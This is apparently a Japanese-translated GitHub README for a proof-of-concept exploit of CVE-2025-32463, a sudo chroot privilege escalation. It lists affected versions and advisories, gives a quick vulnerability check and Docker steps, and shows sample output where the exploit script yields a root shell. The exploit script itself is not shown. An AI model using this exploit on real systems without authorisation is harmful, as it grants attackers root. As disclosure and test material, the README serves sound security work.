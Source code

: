 <translate-content># CVE-2025-32463 – sudo chroot ("chwoot") PoC

このリポジトリは、`sudo` の chroot 機能における **CVE‑2025‑32463** 権限昇格脆弱性を示すための最小限の再現環境を提供します。
- この脆弱性は、[Rich Mirch](https://www.stratascale.com/team/rich-mirch)（Xの[@0xm1rch](https://x.com/0xm1rch)）が [Stratascale](https://www.stratascale.com/) にて報告しました。
- オリジナル投稿: [脆弱性アドバイザリ: Sudo chroot 権限昇格](https://www.stratascale.com/vulnerability-alert-CVE-2025-32463-sudo-chroot)
- NVD: [CVE-2025-32463](https://nvd.nist.gov/vuln/detail/CVE-2025-32463)（CVSS 9.3）

---

## 影響を受けるバージョン

> ほとんどのLinuxディストリビューションにおける **sudo 1.9.14** から **1.9.17** （全てのpリビジョン）が影響を受けます。

セキュリティページ
- [Ubuntu](https://ubuntu.com/security/CVE-2025-32463)（CVSS 9.3）
- [Redhat](https://access.redhat.com/security/cve/cve-2025-32463)（CVSS 7.8）
- [SUSE](https://www.suse.com/security/cve/CVE-2025-32463.html)（CVSS 7.8）
- [Debian](https://security-tracker.debian.org/tracker/CVE-2025-32463)

---

## 内容

| ファイル名          | 目的                                                                             |
| ------------------ | -------------------------------------------------------------------------------- |
| **Dockerfile**     | 脆弱な **sudo 1.9.16p2** とビルドツールを含む Ubuntu 24.04 イメージを作成       |
| **sudo‑chwoot.sh** | chroot 内に root シェルを生成するプルーフ・オブ・コンセプトエクスプロイト          |
| **run.sh**         | イメージのビルド（必要な場合）とエクスプロイトコンテナの起動を補助するスクリプト   |

---

## 簡易脆弱性チェック</translate-content>
```bash
# Vulnerable sudo
pwn ~ $ sudo -R woot woot
sudo: woot: No such file or directory

# Patched sudo
pwn ~ $ sudo -R woot woot
[sudo] password for pwn:
sudo: you are not permitted to use the -R option with woot
```
## Dockerコンテナ内でのテストエクスプロイト


```bash
# 1 – clone repo
$ git clone https://github.com/pr0v3rbs/CVE-2025-32463_chwoot.git
$ cd CVE-2025-32463_chwoot

# 2 – build and run Docker image (tagged "sudo-chwoot")
$ ./run.sh

# 3 – run exploit in container (runs root command directly or drops you into a root shell)
pwn@f722d9182d1f:~$ ./sudo-chwoot.sh id
woot!
uid=0(root) gid=0(root) groups=0(root),1001(pwn)
pwn@f722d9182d1f:~$ ./sudo-chwoot.sh
woot!
root@f722d9182d1f:/# id
uid=0(root) gid=0(root) groups=0(root),1001(pwn)
root@f722d9182d1f:/#
```
`run.sh` は Docker に `--privileged` と `--rm` を渡すので、終了時にコンテナが自動的にクリーンアップされます。

---

## クリーンアップ

作業が終わったらイメージを削除してください:


```bash
docker rmi sudo-chwoot
```
---

## 参考文献

- Stratascale CRU 脆弱性ノート: [脆弱性アドバイザリ: Sudo chroot 権限昇格](https://www.stratascale.com/vulnerability-alert-CVE-2025-32463-sudo-chroot)



---

Tranlated By [Open Ai Tx](https://github.com/OpenAiTx/OpenAiTx) | Last indexed: 2025-07-16

---